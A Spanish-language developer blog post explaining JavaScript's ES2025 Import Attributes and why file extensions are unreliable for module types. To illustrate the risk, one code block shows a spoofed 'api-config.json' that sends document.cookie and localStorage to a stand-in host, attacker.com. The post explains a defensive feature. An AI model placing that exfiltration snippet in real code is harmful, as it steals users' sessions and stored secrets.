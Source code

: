 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Comprendiendo su nueva sintaxis y por qué no podemos fiarnos solo de las extensiones de archivo.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript incorpora una nueva función que hace que las importaciones de módulos sean más explícitas y seguras. Los **Import Attributes** añaden una forma de pasar metadatos sobre cualquier módulo que estemos importando, ya sea JSON, JavaScript u otros tipos de módulos.

## ❌ El problema

En Internet, las extensiones de archivo no indican el contenido de forma fiable. Un servidor puede devolver JavaScript cuando usted espera JSON:

```js title="main.js"
// Parece seguro, pero podría ser peligroso ☢️
import config from './config.json';
```

```js title="config.json"
// El servidor podría responder con código ejecutable:
export default (function () {
  // Ejecución inesperada de código 💀
})();
```

## 💡 La solución: Import Attributes

Los Import Attributes crean un contrato entre el código y el tiempo de ejecución. Declaras explícitamente qué tipo de módulo esperas:

```js
// Requerir JSON explícitamente
import config from './config.json' with { type: 'json' };

// O especificar JavaScript
import module from './module.js' with { type: 'javascript' };

// También funciona con importaciones dinámicas
const data = await import('./config.json', {
  with: { type: 'json' }
});
```

La sintaxis funciona de forma coherente en diferentes contextos de módulos:

```js
// Re-exportación con atributos
export { data } from './data.json' with { type: 'json' };

// Instanciación de Web Worker
new Worker('processor.wasm', {
  type: 'module',
  with: { type: 'webassembly' }
});
```

## 💭 ¿Por qué los Import Attributes?

El principal problema es la seguridad. En Internet, las extensiones de archivo no indican el contenido de forma fiable. Una URL que termine en `json` podría en realidad servir JavaScript:

```js title="main.js"
// Carga de la configuración de la API
import apiConfig from './api-config.json';

// Lo que esperas obtener:
{
  "apiKey": "secret-key",
  "endpoint": "https://api.example.com",
  "timeout": 5000
}
```

```js title="api-config.json"
// Lo que un servidor comprometido podría enviar en su lugar:
export default (function () {
  // Envía tus claves API a un atacante
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    apiKey: 'secret-key',
    endpoint: 'https://api.example.com',
    timeout: 5000
  }
})();
```

Los Import Attributes hacen que nuestro sistema de módulos sea más explícito y seguro. Los módulos JSON no pueden ejecutar código, son datos puros. Cuando marcas un módulo con `type: "json"`, estás garantizado que obtendrás datos JSON o un error, nunca código ejecutable.

El impacto más inmediato se produce en las importaciones JSON, donde la seguridad es crucial:

```js
// Archivos de configuración
import config from './config.json' with { type: 'json' };

// Configuración dinámica
const config = await import(
  `./config.${env}.json`,
  { with: { type: 'json' } }
);
```

Esta característica crea una base para manejar con seguridad diferentes tipos de módulos en JavaScript. Cuando llegue en 2025, dispondremos de una forma estándar de declarar nuestras expectativas sobre los módulos en todos los entornos JavaScript.

Piensa en ello como si añadieras seguridad de tipos a tus importaciones de módulos, no para los datos dentro de los módulos, sino para los propios módulos.
